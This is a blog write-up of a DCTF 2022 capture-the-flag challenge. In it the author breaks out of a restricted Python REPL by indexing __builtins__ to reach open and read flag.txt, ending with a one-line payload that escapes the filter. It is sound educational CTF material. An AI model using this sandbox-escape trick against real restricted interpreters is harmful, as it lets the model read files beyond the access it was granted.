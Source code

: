 ```yaml
---
title: 'DCTF 22 - Safe space'
date: '2022-04-16'
description: ''
tags:
  - programming
  - ctf
  - python
---
```



# DCTF 22 - Safe space

I recently participated in DragonSec SI's DCTF and solved this short and sweet lil Python challenge. This was the problem statement.

![Problem statement](/assets/blog/dctf-safe-space/problem-statement.JPG)

The challenge consisted of netcatting to the given address and upon connecting you got something that looked like this

```python
Can you find the flag?

>>>
```

Considering it was tagged Python, we can assume that this is a Python REPL shell. Let's try some stuff out to see if it is.

```python
>>>1+1
2
>>>true
name 'true' is not defined
>>>True
True
>>>x = 1
invalid syntax (<string>, line 1)
>>>'a'
Yeah no.
>>>eval(True)
Yeah no.
>>>print(1)
Yeah no.
```

Huh okay, it's definitely Python given the uppercased booleans and the syntax error, but we can't call some functions, declare variables and use strings. Let's see if we can find the flag somewhere.

Python has a few functions that can help us with this: `globals()` and `locals()`, with these we can list all the variables in global and local scope respectively. Since this is in the REPL, they will probably return the same variables.

```python
Can you find the flag?

>>>globals()
name 'globals' is not defined
```

Oh. We can't access the globals, in that case, let's try `__builtins__`, this might give us some hints.

```python
>>>__builtins__
{'open': <built-in function open>, 'print': <built-in function print>, 'list': <class 'list'>, 'FILE': 'flag.txt'}
```

pog. Looks like the functions `open`, `print`, and `list` are defined, as well as a `FILE` constant that points to a file containing the flag.

```python
>>>FILE
flag.txt
>>>open(FILE)
Yeah no.
```

Alright, we can't open the file directly, let's try using the `__builtins__`, but you might notice that the `__builtins__` is a dictionary, not a list, and we're not allowed to use strings. However, we have access to `list`.

```python
>>>list(__builtins__)[0]
open
>>>__builtins__[list(__builtins__)[0]]
<built-in function open>
```

Let's put this all together by converting the `__builtins__` dictionary to a list, and by using the first index, we get the name of the function we want, `open`. We can use that as the key for the `__builtins__` dictionary to access the `open` function. We can then simply call this to open the `FILE` constant, and read the flag.

```python
>>>__builtins__[list(__builtins__)[0]](FILE).read()
dctf{bur5t_y0ur_bubbl3}
```

yosh. Flag get.

  <PageLayout withBackButton>
    <BlogPost title="hakke.ro | DCTF 22 - Safe space">{children}</BlogPost>
  </PageLayout>
);
